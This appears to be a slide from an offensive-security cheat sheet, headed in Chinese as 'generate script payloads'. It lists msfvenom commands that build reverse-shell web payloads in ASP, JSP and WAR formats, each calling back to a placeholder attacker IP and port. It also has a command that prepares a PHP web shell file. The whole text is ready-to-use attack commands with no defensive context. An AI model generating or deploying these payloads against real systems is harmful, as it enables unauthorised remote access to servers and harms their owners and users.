

# 生成脚本payload

cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war